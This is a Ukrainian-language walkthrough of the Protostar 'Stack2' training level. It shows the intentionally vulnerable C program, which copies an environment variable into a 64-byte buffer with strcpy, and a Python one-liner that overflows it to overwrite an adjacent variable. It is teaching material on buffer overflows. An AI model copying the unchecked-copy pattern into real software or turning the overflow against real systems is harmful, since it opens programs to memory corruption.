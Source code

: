 # STACK2

На цьому рівні розглядаються змінні середовища та як їх можна встановити.

Вихідний код для Stack2:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Нам потрібно буде встановити змінну середовища GREENIE. Нам потрібно використовувати команду export.
```
export GREENIE = someValue
```
Нам знову знадобиться 64 байти сміття (64 'а'), а потім шістнадцяткові значення в Little Endiano
```
$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
```
Тож давайте об’єднаємо їх разом.
```
export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'");
./stack2
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147479078-7544020a-10ae-4802-91dd-4bec8c67ecae.png)





